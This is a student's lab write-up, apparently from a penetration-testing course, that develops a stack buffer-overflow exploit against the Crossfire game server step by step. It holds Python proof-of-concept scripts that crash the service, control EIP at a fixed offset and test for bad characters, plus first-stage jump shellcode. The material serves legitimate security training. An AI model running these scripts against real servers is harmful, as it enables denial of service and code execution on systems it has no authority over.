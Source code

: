 # 12.2.1 - Replicating the Crash
#### Exercises

_(To be performed on your own Kali and Debian lab client machines - Reporting is required for these exercises)_

1.  Log in to your dedicated Linux client using the credentials you received.
In order to login to our linux client we simply need to start the machine and then rdesktop with our credentials.
`rdesktop -u student -g 1024x768 -r clipboard:CLIPBOARD 192.168.233.44`

In preperation for the remaining tasks we must also launch the "Crossfire" application
![[crossfire_start.png]]

2.  On your Kali machine, recreate the proof-of-concept code that crashes the Crossfire server.
Once the application is running we can use the following code on our Kali machine to crash the application 
```python
#!/usr/bin/python3
import socket

ip = "192.168.233.44"
port = 13327

crash = "\x41" * 4379
buffer = "\x11(setup sound " + crash + "\x90\x00#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```




3.  Attach the debugger to the Crossfire server, run the exploit against your Linux client, and confirm that the EIP register is overwritten by the malicious buffer.
We need to start edb, attach to crossfire, and put crossfire into "Run" mode.
![[edb_running.png]]
Once this is complete we can execute our PoC code on our Kali machine to observe the crash.

![[edb_crossfire_crash.png]]




# 12.3.1 Controlling EIP
#### Exercises

_(To be performed on your own Kali and Debian lab client machines - Reporting is required for these exercises)_

**1.  Determine the correct buffer offset required to overwrite the return address on the stack.**

First we must create a pattern via msfvenom, we do this with the following command:
`msf-pattern_create -l 4379 `

We then add the pattern to our PoC, replacing the initial string of A's.
![[Pasted image 20220714141259.png]]
We can then run the PoC, using EDB to determine what part of the pattern overwrote EIP.
![[Pasted image 20220714141628.png]]

We can see that the new value of EIP is 46367046 and we can now use msf-pattern_offset to find its location.
![[Pasted image 20220714141906.png]]


**2.  Update your stand-alone script to ensure your offset is correct.**

Using the information above, we can update our PoC to ensure the proper offset is being sent. We have now updated the "crash" variable to reflect the proper offset of 4368. The "eip" variable should overwrite the EIP with 4 "B" characters. The remaining space should be filled with "C" characters via the "offset" variable. The script should now look something like this:
```python
#!/usr/bin/python3
import socket

ip = "192.168.233.44"
port = 13327


crash = "\x41" * 4368
eip = "B" * 4
offset = "C" * (4379 - len(eip) - len(crash))
inputBuffer = crash + eip + offset


buffer = "\x11(setup sound " + inputBuffer + "\x90\x00#"


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```



# 12.5.1 Checking for Bad Characters
#### Exercises

_(To be performed on your own Kali and Debian lab client machines - Reporting is required for these exercises)_

**1.  Determine the opcodes required to generate a first stage shellcode using msf-nasm_shell.**

When running the PoC, we notice that the ESP register points towards the end of our buffer, giving us 7 bytes to work with. We can use this space to create a first stage shellcode to align the EAX register and make it point to the correct place in our buffer. To do this, we first must measure how far into the buffer we need to skip in order to land at the start of our payload.

As we can see from the following screenshot, there are 12 characters present at the start of our buffer which we need to skip (10 letters, 2 spaces).
![[Pasted image 20220714172657.png]]
In order to skip these 12 bytes we need to utilize the ADD assembly instruction followed by a JMP instruction. We can generate these opcodes by using msf-nasm_shell:

![[Pasted image 20220714173039.png]]

As we can see from the previous screenshot, the bytes used to perform the ADD and the JMP are
`\x83\xc0\x0c\xff\xe0`
As there are only 5 bytes needed to accomplish our goals, we must fill the remaining two bytes, `x\90` or NOPs will work perfectly for this.

Our final first stage shellcode should look as follows:
`\x83\xc0\x0c\xff\xe0\x90\x90`


**2.  Identify the bad characters that cannot be included in the payload and return address.**

I began by placing setting the "badchars" variable to represent all possible bad characters. I then placed this into the initial crash variable which was previous filled with "A" characters. I subtracted the length of "badchars" in order to maintain the same length and maintain control of EIP

The full code for checking the characters is as follows:
```python
#!/usr/bin/python3
import socket

ip = "192.168.233.44"
port = 13327

badchars = ""
badchars += "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
badchars += "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
badchars += "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
badchars += "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
badchars += "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
badchars += "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
badchars += "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
badchars += "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
badchars += "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
badchars += "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
badchars += "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
badchars += "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
badchars += "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
badchars += "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
badchars += "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
badchars += "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"



crash = "A" * (4368 - len(badchars))
eip = "B" * 4
first_stage = "\x83\xc0\x0c\xff\xe0\x90\x90"

inputBuffer = crash + badchars + eip + first_stage

buffer = "\x11(setup sound " + inputBuffer + "\x90\x00#"


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

This unfortunately required a bit of trial and error, as the lines containing bad characters would sometimes result in a failed crash. Through the process of elimination, eventually the characters were identified.

`\x20` and `x00`

![[Pasted image 20220714171745.png]]